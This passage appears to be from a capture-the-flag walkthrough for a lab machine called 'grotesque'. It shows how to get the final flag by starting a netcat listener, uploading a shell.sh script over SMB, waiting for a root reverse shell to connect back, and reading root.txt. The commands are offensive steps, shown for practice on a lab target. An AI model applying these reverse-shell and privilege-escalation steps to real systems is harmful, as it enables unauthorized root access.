


5.1 Getting the last flag
1. On you Kali Machine run the following code.
$nc -lvp 1234
2. Connect via SSH.
$ssh freddie@192.168.12.26
Output:

3. Connect to SMB.
freddie@grotesque:~$smbclient \\\\127.0.0.1/grotesque
Output:
4. Put the file “shell.sh”.
smb: \>put shell.sh
5. List the files.
smb: \>ls
Output:

6. Wait for a minute and you'll have a “root shell” on your Kali Machine netcat connection (No need to run anything).
Output:
7. Run the following commands on your “root shell”.
id
cd /root
ls
cat root.txt
cd /root
ls
cat root.txt
Output:
